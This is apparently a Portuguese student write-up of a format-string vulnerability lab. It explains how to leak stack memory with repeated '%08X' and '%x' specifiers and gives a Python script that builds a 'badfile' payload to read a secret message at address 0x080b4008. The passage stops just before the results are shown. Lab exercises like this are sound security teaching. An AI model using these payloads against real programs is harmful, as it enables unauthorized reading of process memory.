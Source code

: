 Portanto, nessa configuração do programa, para exibir os primeiros 4 bytes da entrada inicial, é necessário criar uma string contendo exatamente 64 '%08X': os primeiros 63 para mostrar os endereços intermediários e o último para exibir os 32 bits iniciais (4 bytes) da entrada.

### B part

Seguindo uma ideia parecida à do tópico anterior, só que desta vez usando o ficheiro python fornecido para criar a format string mais facilmente, começamos por reescrever o valor da memória onde estaria a mensagem secreta, que era *0x080b4008* (obtido no terminal ao efetuar a alínea anterior) e metendo a string com valor de *" %x "*63 + " %s"*, seguindo a mesma ideia da alínea anterior, tendo obtido o seguinte script de python:

```python
#!/usr/bin/python3
import sys

# Initialize the content array
N = 1500
content = bytearray(0x0 for i in range(N))

# This line shows how to store a 4-byte integer at offset 0
number  = 0x080b4008
content[0:4]  =  (number).to_bytes(4,byteorder='little')

# This line shows how to store a 4-byte string at offset 4
content[4:8]  =  ("abcd").encode('latin-1')

# This line shows how to construct a string s with
#   12 of "%.8x", concatenated with a "%n"
s = " %x "*63 + " %s"

# The line shows how to store the string s at offset 8
fmt  = (s).encode('latin-1')
content[8:8+len(fmt)] = fmt

# Write the content to badfile
with open('badfile', 'wb') as f:
  f.write(content)
```

De seguida então corremos o script de python, tendo obtido os seguintes resultados:
